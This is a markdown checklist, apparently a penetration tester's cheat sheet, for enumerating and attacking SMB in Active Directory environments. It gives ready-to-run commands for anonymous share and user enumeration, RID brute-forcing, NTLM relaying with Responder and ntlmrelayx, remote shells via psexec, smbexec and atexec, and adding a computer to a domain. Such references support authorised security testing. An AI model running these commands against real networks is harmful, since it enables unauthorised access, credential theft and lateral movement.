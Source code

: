 # SMB Enumeration - AD Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating SMB (ports 139/445), I realistically expect to:

- [ ] Discover accessible shares (public, hidden, or misconfigured)
- [ ] Identify valid users via RID brute-force or username lists
- [ ] Retrieve password policy and domain/workgroup details
- [ ] Check for SMB signing or encryption requirements
- [ ] Dump sensitive data like SAM, LAPS, or NTDS
- [ ] Relay NTLM hashes (e.g., via Responder + ntlmrelayx)
- [ ] Execute commands remotely (atexec, psexec, smbexec)
- [ ] Add a new machine to the domain (if permissions allow)

---

## ✅ 1. Enumeration Without Credentials

- [ ] **Nmap Enumeration**
    ```bash
    nmap -p 139,445 --script "*smb*" <IP>
    ```

- [ ] **Null/Guest/Anonymous Sessions**
    ```bash
    # Null session
    smbclient -L //<IP>/ -N
    crackmapexec smb <IP> -u '' -p ''

    # Guest account
    smbclient -L //<IP>/ -U guest%
    crackmapexec smb <IP> -u guest -p ''

    # Anonymous/fake accounts
    crackmapexec smb <IP> -u a -p ''
    ```

- [ ] **smbmap without creds**
    ```bash
    smbmap -H <IP>
    ```

- [ ] **CrackMapExec Null Modules**
    ```bash
    crackmapexec smb <IP> -u '' -p '' --shares
    crackmapexec smb <IP> -u '' -p '' --users
    crackmapexec smb <IP> -u '' -p '' --rid-brute
    crackmapexec smb <IP> -u '' -p '' --pass-pol
    ```

- [ ] **Responder & NTLMRelay**
    ```bash
    Responder -I eth0 -A
    python3 ntlmrelayx.py -smb2support -t smb://<IP> -socks
    ```

---

## ✅ 2. Enumeration With Username (No Password)

- [ ] **Try Known Username Without Password**
    ```bash
    smbclient -L //<IP>/ -U knownuser%
    crackmapexec smb <IP> -u knownuser -p ''
    ```

---

## ✅ 3. Enumeration With Credentials

- [ ] **List Shares**
    ```bash
    # smbmap
    smbmap -H <IP> -u john -p 'password123'

    # smbclient
    smbclient -L //test.local/ -I <IP> -U john
    smbclient //test.local/C$ -I <IP> -U john
    ```

- [ ] **CrackMapExec Full Enumeration**
    ```bash
    crackmapexec smb <IP> -u john -p 'password123' --shares --users --groups --local-groups --loggedon-users --sessions --pass-pol --rid-brute
    ```

- [ ] **Password Policy Check**
    ```bash
    crackmapexec smb <IP> -u john -p 'password123' --pass-pol
    ```

- [ ] **RID Brute**
    ```bash
    crackmapexec smb <IP> -u john -p 'password123' --rid-brute
    ```

---

## ✅ 4. Shell Access & Remote Commands

- [ ] **Remote Shells**
    ```bash
    python3 atexec.py test.local/john:password123@<IP> whoami
    python3 smbexec.py test.local/john:password123@<IP>
    python3 psexec.py test.local/john:password123@<IP>
    python3 smbclient.py test.local/john:password123@<IP>
    python3 reg.py test.local/john:password123@<IP> query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
    ```

---

## ✅ 5. Post-Exploitation - Add Machine to Domain

- [ ] **Add a Computer to the Domain**
    ```bash
    python3 addcomputer.py -method SAMR -dc-ip <IP> -computer-name testbox -computer-pass Test123! test.local/john:password123
    ```
